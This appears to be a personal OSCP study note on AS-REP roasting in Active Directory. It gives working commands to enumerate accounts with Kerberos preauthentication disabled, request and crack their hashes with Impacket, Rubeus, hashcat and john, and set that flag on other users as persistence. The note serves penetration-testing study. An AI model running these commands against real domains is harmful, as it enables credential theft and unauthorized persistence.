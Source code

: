 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/13-active-directory-attacks/3-as-rep-roasting/"}
---
```


-------
- AS-REP, or Kerberos preauthentication, prevents offline password guessing and attacks against the server responses.
- However, if "_Do not require Kerberos preauthentication_" is enabled for specific users for applications to function properly this can be done.
- In some situations it may be possible to enable it manually also.
-----------
### Enumerate Kerberos preauth disabled:
- Locally on Windows:
```
Get-NetUser -PreauthNotRequired -Verbose | select cn
```
- Remote from kali:
```
impacket-GetNPUsers -dc-ip 192.168.50.70 corp.com/pete
```
---------------------
### Remote AS-REP Roasting with Impacket:
- Uses ip address for domain controller and user to authenticate
1. Launch roast:
```
impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
```
2. Crack hash:
```
#Hashcat:
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

#John:
john --wordlist=passwords_kerb.txt hashes.asreproast
```

-------
### Local AS-REP Roasting with Rubeus:
1. Launch roast:
```
.\Rubeus.exe asreproast /nowrap
```
2. Crack hash on kali:
```
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

-----------
### Targeted AS-REP Roasting Abuse/Persistence:
- Set preauth not required for users where we have write privileges:
```
Set-DomainObject -Identity <username> -XOR @{useraccountcontrol=4194304} -Verbose
```
